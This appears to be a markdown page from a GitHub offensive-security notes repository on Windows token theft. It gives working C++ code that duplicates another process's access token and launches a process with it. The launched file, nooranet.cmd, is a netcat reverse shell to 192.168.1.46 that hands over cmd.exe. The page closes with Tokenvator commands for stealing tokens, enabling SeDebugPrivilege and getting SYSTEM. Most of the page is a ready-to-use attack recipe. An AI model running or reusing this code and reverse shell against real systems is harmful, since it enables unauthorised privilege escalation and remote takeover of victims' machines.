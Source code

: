 # Token Manipulation

One of the techniques of token manipulation is creating a new process with a token "stolen" from another process. This is when a token of an already existing access token present in one of the running processes on the victim host, is retrieved, duplicated and then used for creating a new process, making the new process assume the privileges of that stolen token.

## Technique

* `OpenProcess` : Open a process with access token you want to steal
* `OpenProcesToken` : Get a handle to the access token of that process
* `DuplicateTokenEx` : Make a duplicate of the access token present in that process
* `CreateProcessWithTokenW` : Create a new process with the newly aquired access token

#### token-man.cpp

```cpp
#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char * argv[]) {
    char a;
    HANDLE processHandle;
    HANDLE tokenHandle = NULL;
    HANDLE duplicateTokenHandle = NULL;
    STARTUPINFO startupInfo;
    PROCESS_INFORMATION processInformation;
    DWORD PID_TO_IMPERSONATE = 3360;
    wchar_t cmdline[] = L"E:\Privilege-Escalation\nooranet.cmd";
    ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
    ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
    startupInfo.cb = sizeof(STARTUPINFO);    

    processHandle = OpenProcess(PROCESS_ALL_ACCESS, true, PID_TO_IMPERSONATE);
    OpenProcessToken(processHandle, TOKEN_ALL_ACCESS, &tokenHandle);
    DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);            
    CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, NULL, cmdline, 0, NULL, NULL, &startupInfo, &processInformation);

    std::cin >> a;
    return 0;
}
```

#### nooranet.cmd

```cmd
nc 192.168.1.46 443 -e cmd.exe
```

### Token Abuses

#### Tokenvator

is a .NET tool for token manipulation that is primarily designed to alter privileges from a process. Using tokenvator tokens can be impersonated in the current process or a new process can be started with a primary token. 

* (Tokens) > info /all
* (Tokens) > whoami
* (Tokens) > list_privileges
* (Tokens) > get_system
* (Tokens) > list_privileges /impersonation
* (Tokens) > Steal_Token /process:1660 /command:cmd.exe
* (Tokens) > Enable_Privilege /Process:1660 /Privilege:SeDebugPrivilege
  * Tokenvator.exe getsystem /command:cmd.exe


